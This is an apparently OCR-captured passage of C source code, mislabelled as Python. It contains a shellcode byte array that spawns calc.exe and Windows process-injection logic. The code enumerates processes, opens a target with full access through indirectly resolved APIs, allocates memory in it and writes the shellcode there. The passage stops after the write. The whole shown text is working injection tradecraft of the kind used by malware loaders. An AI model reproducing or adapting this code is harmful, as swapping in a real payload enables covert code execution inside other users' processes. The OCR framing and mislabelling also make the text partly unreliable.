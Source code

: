 ```py
		0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
		0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
		0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
		0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
		0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
		0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
		0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
		0x65, 0x78, 0x65, 0x00
	};
	
    PROCESSENTRY32W Process			= { .dwSize = sizeof( PROCESSENTRY32W ) };
	HANDLE			hSnapshot		= 0,
					hProcess		= 0,
					hThread			= 0;
	PVOID			pShellcode		= 0;
	SIZE_T			BytesWritten	= 0;
	DWORD			OldProtection	= 0;
	
    if (!InitApiCalls())
		return -1;
	
    hSnapshot = EXEC( Kernel32, CreateToolhelp32Snapshot ) ( TH32CS_SNAPPROCESS, 0 );
	EXEC( Kernel32, Process32FirstW ) ( hSnapshot, &Process );
	
    do 
	{
		if ( Process.th32ProcessID && Process.szExeFile ) 
		{
			if ( EXEC( Ntdll, wcscmp ) (Process.szExeFile, TARGET_PROCESS ) == 0 )
			{
				hProcess = EXEC( Kernel32, OpenProcess ) ( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );
			}
		}
	} while ( EXEC( Kernel32, Process32NextW ) ( hSnapshot, &Process ) );
	
    if ( !hProcess )
		return -1;

	pShellcode = EXEC( Kernel32, VirtualAllocEx ) ( hProcess, 0, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
	EXEC( Kernel32, WriteProcessMemory ) ( hProcess, pShellcode, shellcode, sizeof( shellcode ), &BytesWritten );
```